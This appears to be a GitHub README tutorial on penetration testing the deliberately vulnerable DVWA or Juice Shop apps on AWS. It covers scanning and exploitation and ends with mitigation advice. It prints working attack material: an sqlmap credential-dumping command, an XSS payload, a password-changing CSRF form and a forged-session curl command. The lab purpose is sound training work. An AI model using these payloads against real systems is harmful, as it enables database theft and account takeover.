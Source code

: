 # Web Application Penetration Testing

## 📌 Overview
This project demonstrates a full Web Application Penetration Testing workflow by setting up, scanning, exploiting, and documenting vulnerabilities in a deliberately insecure web application hosted on AWS.

---

## 🚀 Steps to Follow

### 🔹 Step 1: Deploy a Vulnerable Web Application
We deploy **DVWA (Damn Vulnerable Web App)** or **OWASP Juice Shop** on an **AWS EC2 instance**.

#### 🛠 Prerequisites
- AWS Account / Azure Subscription
- Linux-based VM (Ubuntu recommended)
- Basic Linux command-line knowledge

#### 🏗 Option 1: Deploy DVWA on AWS EC2
```bash
# Connect to EC2 instance
ssh -i your-key.pem ubuntu@your-ec2-public-ip

# Update system & install dependencies
sudo apt update && sudo apt install -y apache2 mariadb-server php php-mysql unzip git

# Download & configure DVWA
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
sudo chown -R www-data:www-data DVWA

# Set up MySQL for DVWA
sudo mysql -u root -e "CREATE DATABASE dvwa;"
sudo mysql -u root -e "CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'password';"
sudo mysql -u root -e "GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';"
sudo mysql -u root -e "FLUSH PRIVILEGES;"

# Restart Apache
sudo systemctl restart apache2
```
Access **DVWA** at: `http://your-ec2-public-ip/DVWA/`

#### 🏗 Option 2: Deploy OWASP Juice Shop
```bash
sudo apt install -y docker.io
sudo docker run -d -p 3000:3000 bkimminich/juice-shop
```
Access **Juice Shop** at: `http://your-ec2-public-ip:3000`

---

### 🔹 Step 2: Reconnaissance & Scanning

#### 🔍 Tools Required
- **Nmap** (Port Scanning & Service Discovery)
- **Nikto** (Web Server Vulnerability Scanning)
- **WhatWeb** (Web Technology Fingerprinting)

#### 📌 Run Nmap for Port Scanning
```bash
nmap -sV -A your-ec2-public-ip
```
Find open ports, web server details, and outdated software versions.

#### 📌 Scan for Vulnerabilities with Nikto
```bash
nikto -h http://your-ec2-public-ip/DVWA/
```
Identifies security flaws like **default credentials**, **XSS**, and **SQL Injection**.

#### 📌 Fingerprint Technologies with WhatWeb
```bash
whatweb http://your-ec2-public-ip/DVWA/
```
Identifies CMS, frameworks, and server details for targeting vulnerabilities.

---

### 🔹 Step 3: Exploiting Vulnerabilities

#### 💉 SQL Injection (SQLi) with SQLmap
```bash
sqlmap -u "http://your-ec2-public-ip/DVWA/vulnerabilities/sqli/?id=1" --dbs --batch
```
Extracts **database names, tables, and credentials**.

#### 🛑 Cross-Site Scripting (XSS) with Burp Suite
```html
<script>alert('XSS Found')</script>
```
If the alert pops up, XSS is successful.

#### 🔓 Cross-Site Request Forgery (CSRF)
```html
<form action="http://your-ec2-public-ip/DVWA/vulnerabilities/csrf/" method="POST">
  <input type="hidden" name="password_new" value="hacked123">
  <input type="hidden" name="password_conf" value="hacked123">
  <input type="submit" value="Click Here">
</form>
```
Tricks a logged-in user into **changing their password** without consent.

#### 🏴‍☠️ Session Hijacking (Authentication Exploit)
```bash
curl -b "PHPSESSID=abcd1234" http://your-ec2-public-ip/DVWA/
```
If successful, an attacker can log in without credentials.

---

### 🔹 Step 4: Reporting & Mitigation

📋 **Penetration Testing Report** using Dradis/OpenVAS

✅ **Mitigation Recommendations:**
- **SQL Injection** → Use prepared statements.
- **XSS** → Implement input sanitization & Content Security Policy (CSP).
- **CSRF** → Enforce CSRF tokens.
- **Session Hijacking** → Enable Secure Cookies & HttpOnly Flag.

---

## 🎯 Final Outcome
✅ You have successfully performed **Web Application Penetration Testing**.

---

## 🤝 Contributing
Pull requests are welcome! If you find any improvements or issues, feel free to submit them.

## 📜 License
This project is licensed under the **MIT License**.

## 📬 Contact
For queries, reach out via **GitHub Issues** or **email**.

---

🔥 Happy Hacking! 🔥

